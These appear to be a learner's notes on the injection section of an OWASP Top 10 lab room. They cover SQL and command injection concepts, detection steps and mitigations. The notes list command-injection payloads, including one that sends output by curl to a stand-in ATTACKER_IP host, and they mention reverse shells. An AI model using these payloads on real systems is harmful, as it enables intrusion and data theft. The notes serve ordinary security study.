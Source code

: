 # OWASP Top10

# Introduction
- This room breaks each OWASP topic down and includes details on what the vulnerability is, how it occurs and how you can exploit it. You will put the theory into practise by completing supporting challenges.
  - Injection
  - Broken Authentication
  - Sensitive Data Exposure
  - XML External Entity
  - Broken Access Control
  - Security Misconfiguration
  - Cross-site Scripting
  - Insecure Deserialization
  - Components with Known Vulnerabilities
  - Insufficent Logging & Monitoring


## Injection

### Concepts learned
- Injection: attacker-controlled input is interpreted as code/commands by a backend (SQL, OS shell, LDAP, etc.).
- Common types: SQL Injection (manipulate database queries) and OS/Command Injection (execute system commands).
- Impact: data disclosure, modification/deletion, remote code execution, full server compromise.
- Defence principles: never treat user input as executable — use allow-lists, parameterized APIs, escaping only as last resort.

### Explanation
**Injection happens when an application concatenates raw input into a command or query string. Example risks:**
  - "... WHERE id = " + user_input → SQL injection (user_input = "1 OR 1=1").
  - passthru("cmd " + user_input) → command injection (user_input = "$(whoami)").
**Active (reflected) vs Blind command injection:**
  - Active: command output is returned in the HTTP response — easy to verify interactively.
  - Blind: output not returned — confirm via timing (sleep), side channels, or OOB callbacks.
**Typical attack primitives:**
  - Command separators: ;, &&, |
  - Inline substitution: $(cmd) or `cmd`
  - Time-based tests: sleep 5
  - OOB exfiltration: curl http://attacker/... or DNS/ping to attacker-controlled service

### Notes — Practical detection, payloads & mitigations
**Quick detection checklist**
  - Identify inputs that reach DBs or system calls (form fields, URL params, headers, file names).
  - Try harmless commands and observe output: whoami, id, uname -a, cat /etc/issue.
  - Separator tests: append ; whoami, && id.
  - Inline tests: $(whoami) or `whoami`.
  - Blind tests: ; sleep 5 (observe latency).
  - OOB tests: trigger curl http://<your-listener>/p and monitor listener.
**Representative payloads**
  - Active check: ?cmd=whoami
  - Separator: ?cmd=blah; whoami
  - Inline: ?cmd=$(whoami)
  - Time-based blind: ?cmd=sleep 5
  - OOB: ?cmd=curl http://ATTACKER_IP/p?$(whoami)
**Typical lab findings**
  - Webserver user often exposed (www-data, apache, www), shell may be nologin.
  - OS/version and MOTD can be enumerated via uname -a and cat /etc/issue.
  - Example artifact: found drpepper.txt in webroot (lab exercise).
**Exploitation notes** 
  - If active exec possible and environment allows, reverse shells are a next step — use safest supported stager (Python/Perl/PHP) and avoid destructive commands.
  - If command output not returned, use timing or OOB callbacks to confirm execution.
  - Document payloads, responses, user context, and any files accessed.
**Mitigations**
  - Eliminate string concatenation for queries/commands.
  - DB: use prepared statements / parameterized queries.
  - OS: use APIs that accept argument arrays (execv style), not shell interpolation.
  - Allow-list input validation (accept known-good values).
  - Escape only when unavoidable, and use context-correct escaping libraries.
  - Least privilege: run services with minimal rights; avoid running web processes as root.
  - Disable dangerous functions where feasible; sandbox critical operations.
  - WAF/RASP can be a temporary layer but don’t substitute secure coding.
  - Log & monitor for suspicious params, time delays, and anomalous outbound requests; alert on OOB callbacks.
**checklist**
  - Record: endpoint, parameter name, full request, successful payload, response, webserver user, OS/version.
  - Categorize: active or blind injection.
  - Recommend fixes: parameterized queries, allow-listing, least privilege, input logging.


